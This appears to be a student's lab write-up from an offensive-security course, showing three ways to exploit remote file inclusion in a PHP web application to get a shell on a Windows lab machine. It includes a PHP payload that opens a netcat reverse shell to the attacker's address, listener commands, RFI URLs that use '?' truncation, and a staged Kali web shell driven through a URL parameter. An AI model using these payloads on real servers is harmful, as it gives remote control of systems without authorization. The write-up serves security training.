 9.4.4.7

# 9.4.4.7
## 9.4.4.7.1. Exploit the RFI vulnerability in the web application and get a shell.

Note: PHP apps must be configured with *allow_url_include* set to "On".

On Kali, create a file in /var/www/html called cmdshell.txt
```plaintext
ali@kali:/var/www/html$ cat cmdshell.txt 
<?php echo exec("nc -nv 192.168.119.214 5678 -e cmd.exe"); ?>
```

Start apache
```plaintext
kali@kali:/var/www/html$ sudo systemctl start apache2
```

Start a netcat listener on port 5678
```plaintext
kali@kali:/var/www/html$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

From  Windows machine, browse to Kali's cmdshell.txt file
192.168.214.10/menu.php?file=http://192.168.119.214/cmdshell.txt
![e1bfe421b8eb82b3aa2d6a8c797408a0.png](../../_resources/76318c58b0da43a988a1bf060a45fe62.png)

Notice we now have a shell
![180d353a143ce988df88cc3c34531a2a.png](../../_resources/b19700a479904583844242f2226645d5.png)



## 9.4.4.7.2. Using **/menu2.php?file=current_menu** as a starting point, use RFI to get a shell.

Start a netcat listener on Kali
```plaintext
kali@kali:/var/www/html$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

Remember that sometimes the server will append .php to any file. Use a null byte or ? to terminate the string so that you have more flexibility in which files you use for RFI. In this case, we add a ? to menu2.php and cmdshell.txt

Browse to this site:
`http://192.168.214.10/menu2.php?file=current_menu?&file=http://192.168.119.214/cmdshell.txt?`
![6e4c1b3daa0dbab31a5cb59e86187520.png](../../_resources/339db707d9724dffad533dd300c6fa86.png)

Notice we now have a shell
![74cac672972b57b60322a62854512687.png](../../_resources/f1cfcf9398904071a7f735db8c95eec9.png)



## 9.4.4.7.3. Use one of the webshells included with Kali to get a shell on the Windows 10 target.

Copy simple.backdoor.php to web root
```plaintext
kali@kali:/var/www/html$ sudo cp /usr/share/webshells/php/simple-backdoor.php 
```

Change the extension file from .php to .txt
```plaintext
kali@kali:/var/www/html$ sudo mv simple-backdoor.php simple-backdoor.txt
```

Restart apache2
```plaintext
kali@kali:/var/www/html$ sudo systemctl start apache2
```

Start a netcat listener on Kali port 5678
```plaintext
kali@kali:~$ sudo nc -lnvp 5678
listening on [any]
```

Browse to the site
http://192.168.214.10/menu.php?file=http://192.168.119.214/simple-backdoor.txt&cmd=nc+-nv+192.168.119.214+5678+-e+cmd.exe
![4eeed43611fa80171aeef6af5bc4bf12.png](../../_resources/5277992639e74044aa5185bd8a40da02.png)

Notice we have a shell
![a64dec96b8a226a0948c05eed6565b0a.png](../../_resources/f7560a4c71b34ec2a951c5dc61599837.png)





